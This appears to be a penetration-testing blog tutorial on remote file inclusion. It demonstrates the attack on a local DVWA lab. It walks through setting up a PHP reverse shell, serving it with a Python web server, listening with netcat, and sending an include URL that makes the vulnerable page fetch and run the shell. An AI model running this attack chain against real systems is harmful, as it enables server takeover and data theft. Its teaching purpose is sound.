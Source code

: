 ```yaml
---
title: Remote file inclusion
date: 14,sep 2022
categories : [Penetration Tester, Web Hacking ,file inclusion]
tags: [web hacking , file inclusion ]
---
```

# Remote file inclusion (RFI)
![global pic](/assets/rfi.jpg)
## What is RFI
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts , so the hacker can host his web server in the client of the victim that's to give him the power to do a lot of things :
- Code execution on the web server
- Executing client-side code like JavaScript that can lead to other attacks like Cross-site scripting (XSS).
- Denial of Service (DoS)
- Data Theft / Manipulation


![global pic](/assets/rfi2.jpg)
---

## how hacker discover this vulnerabilities

[See this post](https://chalalsaad.github.io/posts/file-inclusion-directory-traversal/)

---

## Remote file inclusion examples
i will attack my [DVWA](https://www.kali.org/tools/dvwa/) lab 




![global pic](/assets/rfi3.png)



First we need [reverse PHP shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) This  script will open an outbound TCP connection from the web server to a host and port of your choice.  Bound to this TCP connection will be a shell.if you are php developer you can build your own , is available in [GitHub](https://github.com/pentestmonkey/php-reverse-shell):

Open the php-reverse-shell.php file by nano or any editor and try to verify double thing of course the ip and the port

![ reverse shell](/assets/rfi4.png)

---
Now we need to create a web server ,me i use [python web  server](https://pythonbasics.org/webserver/) ,you can use other  one doesn't matter.

To start a webserver run the command below:
```shell
python3 -m http.server 8888
```
![global pic](/assets/rfi7.png)

![ reverse shell](/assets/rfi5.png)


Now i will use [netcat](https://fr.wikipedia.org/wiki/Netcat) to listening in the target by his port , so netcat functions as a back-end tool that allows for port scanning and port listening.

To start listening on 4444:
```shell
  sudo nc -lvnp 4444
```
- -l :  listen mode, for inbound connects
- -v           verbose [use twice to be more verbose]
- -n           numeric-only IP addresses, no DNS
- -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])

![ reverse shell](/assets/rfi6.png)

Ultimate step is run this shell in the victim client 
```http
 http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://0.0.0.0:8888/php-reverse-shell.php
```
![ reverse shell](/assets/rfi8.png)

---
![ reverse shell](/assets/rfi9.png)

### our shell is get in the web server of the victim with successfully


![ reverse shell](/assets/rfi10.png)

### now we have the full control on the server, we can run any command we want and access to any hidden file


![ reverse shell](/assets/rfi11.png)






